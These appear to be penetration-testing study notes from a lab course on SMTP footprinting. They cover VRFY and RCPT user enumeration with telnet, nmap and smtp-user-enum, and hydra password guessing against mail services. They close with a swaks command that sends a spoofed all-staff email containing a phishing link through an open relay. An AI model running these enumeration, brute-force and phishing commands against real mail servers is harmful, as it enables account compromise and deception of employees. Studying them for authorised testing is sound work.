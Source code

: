 The Simple Mail Transfer Protocol (SMTP) is a protocol for sending emails in an IP network. It can be used between an email client and an outgoing mail server or between two SMTP servers.
# Footprinting the Service
To interact with the SMTP server, we can use the telnet tool to initialize a TCP connection with the SMTP server.
```
telnet <ip> 25
```
The command VRFY can be used to enumerate existing users on the system
```
telnet 10.129.14.128 25
```
```
VRFY root
```
We can see that the VRFY command is not disabled, and we can use this to enumerate valid users. This could potentially be leveraged to gather a list of users we could use to mount a password brute-forcing attack against the FTP and SSH services and perhaps others. Though this is relatively low-risk, it's worth noting down as a Low finding for our report as our clients should reduce their external attack surface as much as possible. If this is no valid business reason for this command to be enabled, then we should advise them to disable it.
Sometimes we may have to work through a web proxy. We can also make this web proxy connect to the SMTP server. The command that we would send would then look something like this
```
telnet 10.129.14.128 25
```
```
CONNECT 10.129.14.128:25 HTTP/1.0
```
We can also use the smtp-open-relay NSE script to identify the target SMTP server as an open relay using 16 different tests. If we also print out the output of the scan in detail, we will also be able to see which tests the script is running.
```
sudo nmap <ip> -p25 --script smtp-open-relay -v
```
## Enumerate Users
### nmap
```
nmap 10.129.179.86 -p25 --script=smtp-enum-users
```
We can check for it anyways but do not find an open relay which is good for our client!
### Using smtp-user-enum
https://github.com/cytopia/smtp-user-enum?tab=readme-ov-file#smiling_imp-expn-mode
#### RCPT mode
This is usually the most useful command to fish for usernames as VRFY and EXPN are often disabled. SMTP having higher response times means we have to increase the time to wait for a reply which can be done by increasing the -w script. It is VERY important to increase the wait response for the reply using -w to 20 or 25.
```
smtp-user-enum -M RCPT -U /home/kali/Desktop/footprinting-wordlist.txt -w 30 -t 10.129.188.186
```
```
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```
We can get a user and try to crack his password with hydra but with pop3 protocol for example
```
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3 (or smtp,imap4)
```
```
hydra -L <userfoundpreviously> -p 'Company01!' -f 10.10.110.20 pop3 (or smtp,imap4)
```
It's typically not worth spending much time brute-forcing authentication for externally-facing services. This could cause a service disruption, so even if we can make a user list, we can try a few weak passwords and move on.
# Protocol Specifics Attacks
## Open Relay
Identify if an SMTP port allows an open relay.
```
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```
Next, we can use any mail client to connect to the mail server and send our email.
```
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```
https://0xdf.gitlab.io/2022/10/29/htb-trick.html
